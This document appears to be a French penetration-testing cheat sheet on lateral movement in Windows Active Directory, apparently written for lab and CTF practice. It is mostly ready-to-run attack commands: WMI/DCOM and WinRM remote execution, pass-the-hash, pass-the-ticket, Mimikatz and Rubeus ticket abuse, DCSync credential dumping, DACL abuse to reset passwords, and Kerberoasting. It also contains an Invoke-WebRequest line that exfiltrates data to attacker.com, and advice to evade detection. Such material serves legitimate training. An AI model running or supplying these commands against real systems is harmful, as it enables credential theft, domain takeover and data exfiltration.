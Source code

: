 # Mouvement Latéral

## Techniques de Mouvement Latéral avec WMI/DCOM

### WMI (Windows Management Instrumentation)

```powershell
# Créer un objet d'identifiants
$username = 'inlanefreight\user'
$password = 'Password123!'
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString

# Exécuter une commande via WMI
$Command = "powershell.exe -enc BASE64_ENCODED_COMMAND"
Invoke-WmiMethod -ComputerName target.inlanefreight.local -Class Win32_Process -Name Create -ArgumentList $Command -Credential $credential
```
### DCOM (Distributed COM)
```powershell
# Utiliser DCOM pour l'exécution à distance
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName target.inlanefreight.local -Credential $credential -SessionOption $Options 
$command = 'powershell.exe -enc BASE64_ENCODED_COMMAND'
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command}
```
## Techniques utilisant WinRM
### PowerShell Remoting (WinRM)

```powershell
# Établir une session PowerShell à distance
Enter-PSSession -ComputerName target.inlanefreight.local -Credential $credential

# Exécuter une commande sur un système distant
Invoke-Command -ComputerName target.inlanefreight.local -Credential $credential -ScriptBlock {whoami; hostname}
```
### WinRM depuis Linux

```bash
# Utiliser Evil-WinRM
evil-winrm -i target.inlanefreight.local -u username -p 'Password123!'

# Avec un hash NTLM (Pass-the-Hash)
evil-winrm -i target.inlanefreight.local -u username -H 'NTLM_HASH'
```
## Problème du "Double Hop" Kerberos
Le problème de "Double Hop" se produit lorsque vous êtes authentifié sur une machine A via Kerberos et que vous tentez d'accéder à une machine B depuis cette machine A.
### Solution 1: Utiliser un objet PSCredential
```powershell
# Sur la session WinRM
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\username', $SecPassword)

# Utiliser les identifiants pour chaque commande nécessitant un accès réseau
Get-DomainUser -Credential $Cred
```
### Solution 2: Configuration de session PSRemoting
```powershell
# Enregistrer une configuration de session qui utilise les identifiants
Register-PSSessionConfiguration -Name SessionWithCreds -RunAsCredential inlanefreight\username
Restart-Service WinRM

# Se connecter en utilisant cette configuration
Enter-PSSession -ComputerName target.inlanefreight.local -ConfigurationName SessionWithCreds
```
## Pass-the-Hash
### Avec CrackMapExec

```bash
# Exécution de commande avec un hash NTLM
crackmapexec smb target.inlanefreight.local -u username -H NTLM_HASH -x "whoami"

# Vérifier l'accès PowerShell Remoting
crackmapexec winrm target.inlanefreight.local -u username -H NTLM_HASH
```
### Avec Impacket
```bash
# PsExec avec Pass-the-Hash
impacket-psexec -hashes :NTLM_HASH inlanefreight.local/username@target.inlanefreight.local

# WMI avec Pass-the-Hash
impacket-wmiexec -hashes :NTLM_HASH inlanefreight.local/username@target.inlanefreight.local
```
## Pass-the-Ticket
### Avec Mimikatz

```powershell
# Exporter des tickets depuis la mémoire
kerberos::list
kerberos::list /export

# Injecter un ticket dans la session
kerberos::ptt ticket.kirbi
```
### Avec Rubeus
```powershell
# Exporter un ticket
.\Rubeus.exe dump /service:krbtgt

# Injecter un ticket
.\Rubeus.exe ptt /ticket:ticket.kirbi
```
## Overpass-the-Hash (génération de ticket Kerberos)
### Avec Rubeus
```powershell
# Convertir un hash NTLM en ticket Kerberos
.\Rubeus.exe asktgt /domain:inlanefreight.local /user:username /rc4:NTLM_HASH /ptt
```
### Avec Mimikatz
```powershell
# Utiliser sekurlsa::pth pour créer une nouvelle session avec le hash
sekurlsa::pth /user:username /domain:inlanefreight.local /ntlm:NTLM_HASH /run:powershell.exe
```
## Utilisation des identifiants extraits
### DCSync pour extraire des credentials
```powershell
# Avec Mimikatz
lsadump::dcsync /domain:inlanefreight.local /user:Administrator

# Avec Impacket
secretsdump.py -just-dc inlanefreight.local/username:password@dc.inlanefreight.local
```
### Recherche de comptes de services et d'administrateurs locaux
```powershell
# Trouver sur quels postes l'utilisateur a des droits d'admin local
Find-LocalAdminAccess -Verbose

# Cibler les administrateurs locaux
Invoke-UserHunter -CheckAccess
```
## Techniques pour échapper aux contrôles de sécurité
### Contournement via LAPS

```powershell
# Lire le mot de passe LAPS avec les droits appropriés
Get-DomainComputer -Identity target -Properties ms-Mcs-AdmPwd | select name,"ms-Mcs-AdmPwd"
```
### Utilisation de communications chiffrées
```powershell
# Établir un tunnel HTTPS pour l'exfiltration
Invoke-WebRequest -Uri "https://attacker.com/$env:COMPUTERNAME.txt" -Method POST -Body $result
```
## Points Clés

- Documenter tous les mouvements latéraux réussis
- Privilégier les méthodes silencieuses pour éviter la détection
- Comprendre les limitations du Double Hop pour les projets réels
- Mixer différentes techniques pour contourner les barrières de sécurité
- Être conscient des logs générés par les différentes méthodes
## Techniques de mouvement latéral tirées de CTFs réels

#### Abus des droits DACL (WriteOwner, GenericAll, GenericWrite) (Administrator)
Lorsqu'un utilisateur a des droits spécifiques sur d'autres objets AD:
#### Exploitation de WriteOwner
```bash
# Avec bloodyAD
bloodyAD -u "utilisateur" -p "motdepasse" -d "domaine" --host "IP" add owner --target "Groupe" --owner "Utilisateur"
```
#### Exploitation de GenericAll
```bash
# Avec PowerView
Set-DomainUserPassword -Identity "utilisateur_cible" -Password (ConvertTo-SecureString "nouveau_mot_de_passe" -AsPlainText -Force)

# Avec bloodyAD
bloodyAD -u "utilisateur" -p "motdepasse" -d "domaine" --host "IP" set password --target "utilisateur_cible" --new-password "nouveau_mot_de_passe"
```
#### Exploitation de GenericWrite pour Kerberoasting
```bash
# Création d'un SPN via targetedKerberoast.py
python targetedKerberoast.py -u "utilisateur" -p "motdepasse" -d "domaine" --dc-ip IP

# Cracker le hash obtenu
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```
> ⚠️ N'oubliez pas de synchroniser l'heure avec le contrôleur de domaine avant d'exécuter des attaques Kerberos:
```bash
bash> sudo ntpdate -u <IP du DC>
```
### Énumération et visualisation avec BloodHound (Administrator, Certified)
#### BloodHound est essentiel pour identifier les chemins d'attaque:
```bash
# Collecte de données avec BloodHound Python
bloodhound-python -u utilisateur -p 'password' -c All -d domaine.tld -ns 10.10.10.x
```
Après importation dans BloodHound, marquez les utilisateurs compromis comme "Owned" et recherchez:
- Shortest Paths to High Value Targets
- Objets avec contrôles délégués (GenericAll, WriteOwner, etc.)

